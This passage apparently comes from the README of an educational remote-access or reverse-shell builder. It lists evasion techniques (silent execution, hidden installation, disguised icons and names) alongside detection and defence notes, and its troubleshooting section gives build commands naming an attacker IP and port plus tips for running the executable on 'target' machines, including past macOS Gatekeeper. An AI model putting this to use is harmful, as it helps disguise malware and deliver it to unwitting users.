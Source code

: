 ✅ **Evasion Techniques**

- Silent execution
- Hidden installation
- Custom icons and naming

✅ **Detection Methods**

- How AV detects packed executables
- Behavioral analysis
- Signature-based detection

✅ **Defense Strategies**

- User awareness training
- Application whitelisting
- Behavioral monitoring

---

## 🆘 Troubleshooting

### Build Failed: PyInstaller Not Found

```bash
# Install manually
pip install pyinstaller

# Or let script auto-install
python3 build_executable.py 192.168.1.100 5555 windows
```

### Build Failed: Module Not Found

```bash
# Install missing dependencies
pip install -r ../requirements.txt

# Rebuild
python3 build_executable.py 192.168.1.100 5555 windows
```

### Executable Won't Run on Target

**Windows:**

- Missing Visual C++ Redistributables?
- Try on different Windows version
- Check if 32-bit vs 64-bit

**macOS:**

- "Unknown developer" warning → Right-click → Open
- Gatekeeper blocking → System Preferences → Security
- Wrong architecture (Intel vs ARM) → Rebuild on target arch

